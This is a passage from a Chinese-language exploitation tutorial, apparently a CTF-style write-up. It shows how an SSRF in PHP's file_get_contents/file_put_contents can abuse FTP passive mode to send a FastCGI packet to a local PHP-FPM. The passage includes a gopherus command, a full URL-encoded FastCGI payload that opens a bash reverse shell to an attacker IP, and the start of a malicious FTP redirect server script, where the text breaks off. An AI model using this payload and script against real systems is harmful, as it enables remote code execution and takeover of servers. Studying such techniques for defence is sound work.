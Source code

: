 可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送HTTP请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与gopher://协议结合使用，curl支持gopher://协议，但file\_get\_contents却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从FTP服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

- 首先通过 file\_get\_contents() 函数连接到我们的FTP服务器，并下载file.txt。
- 然后再通过 file\_put\_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF了。

下面我们来演示一下攻击过程。

首先，我们使用gopherus生成攻击fastcgi的payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

![image-20210501221742319](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c69636d75fa8aee070b13c9b176d0946692d156c.png)

得到payload，而我们需要的是上面payload中 `_` 后面的数据部分，即：

```python
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好nc监听：

![image-20210501221857026](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85c7ce1c61dd02ed50171ea47d58a321f08612aa.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的ftp服务，并将上面的payload中的数据替换掉下面ftp脚本中的payload的内容：

```python
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
```
